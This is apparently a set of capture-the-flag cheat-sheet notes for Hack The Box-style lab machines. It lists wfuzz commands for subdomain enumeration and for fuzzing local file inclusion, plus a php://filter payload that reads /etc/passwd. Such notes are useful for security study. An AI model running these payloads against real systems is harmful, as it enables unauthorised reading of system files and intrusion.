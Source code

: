 ## domain name enumeration
```bash
wfuzz -u http://forge.htb -H "Host: FUZZ.forge.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --sc 200
```

## LFI
```bash
$ wfuzz -u "http://timing.htb/image.php?FUZZ=/etc/passwd"  -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt  --hw 0
```

```bash
$ wfuzz -u "http://timing.htb/image.php?img=FUZZ"  -w /opt/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt  --hw 3,0
```

## using php wrapper
```bash
http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```

